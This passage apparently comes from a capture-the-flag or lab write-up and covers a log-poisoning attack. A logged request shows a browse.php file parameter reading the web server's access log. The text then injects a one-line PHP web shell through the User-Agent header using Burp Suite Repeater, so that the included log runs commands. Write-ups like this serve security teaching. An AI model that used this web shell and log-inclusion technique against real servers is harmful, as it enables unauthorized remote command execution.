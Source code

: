 ```
10.10.14.28 - - [11/Jan/2021:01:35:42 +0100] "GET /browse.php?file=%2Fvar%2Flog%2Fhttpd-access.log HTTP/1.1" 200 12152918 "-" "Mozilla/5.0 COPYRIGHT
bin
boot
dev
entropy
etc
home
lib
libexec
media
mnt
net
proc
rescue
root
sbin
sys
tmp
usr
var
 Firefox/78.0"
```

Now we can use Burpsuite to pass a php script using the User-Agent header, which is logged with the logfiles.

This can be passed inside the User-Agent header parameters:

```
<?php system($_GET['c']); ?>
```

This is passed using the Repeater module of Burpsuite:

![ImgPlaceholder](screenshots/log_poisoning_repeater2.png)

